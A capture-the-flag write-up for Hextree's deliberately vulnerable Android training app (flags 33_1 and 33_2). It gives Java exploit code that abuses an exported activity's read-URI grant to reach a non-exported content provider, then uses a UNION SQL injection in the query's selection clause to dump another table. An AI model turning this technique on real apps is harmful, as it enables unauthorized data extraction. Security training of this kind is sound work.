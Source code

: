 It receives an intent and if it has action `"io.hextree.FLAG33"` and extra string is null it sets the Uri with `"content://io.hextree.flag33_1/flags"` and flag 1 which is `FLAG_GRANT_READ_URI_PERMISSION`

#### Solution
so what we can do? we can  send an intent with `startActivityForResult` and using SQLi injection but this time it's called union attack because we want to access other tables from the db, then use our cursor to get out data and log it 

```java
Intent intent = new Intent("io.hextree.FLAG33");  
intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag33Activity1"));  
startActivityForResult(intent,0);

@Override  
protected void onActivityResult(int requestCode, int resultCode, Intent data) {  
    super.onActivityResult(requestCode, resultCode, data);  
    if (requestCode == 0) {  
        Log.d("flags", data.getData().toString());  
            //   where _id=2 union Select  
        Cursor cursor = getContentResolver().query(data.getData(), new String[]{"name", "value","visible"}, "_id = 2 UNION SELECT  * FROM Note", null, null);  
        if (cursor.moveToFirst()) {  
            do {  
                StringBuilder sb = new StringBuilder();  
                for (int i = 0; i < cursor.getColumnCount(); i++) {  
                    if (sb.length() > 0) sb.append(", ");  
                    sb.append(cursor.getColumnName(i)).append(" = ").append(cursor.getString(i));  
                }  
                Log.d("evil", sb.toString());  
            } while (cursor.moveToNext());  
        }  
    }
}
```

### Flag 33_2
#### Code analysis
```xml
<provider
    android:name="io.hextree.attacksurface.providers.Flag33Provider2"
	android:enabled="true"
	android:exported="false"
	android:authorities="io.hextree.flag33_2"
	    android:grantUriPermissions="true"/>
```
Like the previous flag we cant access it but another component with the right requests it can access it and looking at activity33_2 it has the right requirements 

```java
    String stringExtra = getIntent().getStringExtra("secret");
    if (stringExtra == null) {
	    Intent intent = new Intent();
	    intent.setAction("io.hextree.FLAG33");
	    intent.setData(Uri.parse("content://io.hextree.flag33_2/flags"));
	    intent.addFlags(1);
	    startActivity(intent);
        return;
    }
```
